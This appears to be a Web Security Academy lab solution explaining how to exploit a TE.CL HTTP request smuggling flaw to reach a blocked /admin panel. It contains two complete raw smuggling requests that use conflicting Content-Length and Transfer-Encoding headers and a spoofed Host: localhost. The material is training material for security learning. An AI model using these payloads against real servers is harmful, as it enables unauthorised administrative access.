     x=
    ```

### Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.

**Solution**

1. Try to visit /admin and observe that the request is blocked.
2. In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
3. Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: ac1d1fa61ef75fadc0cb61590085004e.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

4. Observe that the merged request to /admin was rejected due to not using the header Host: localhost.
5. Issue the following request twice:

```
POST / HTTP/1.1
Host: ac1d1fa61ef75fadc0cb61590085004e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
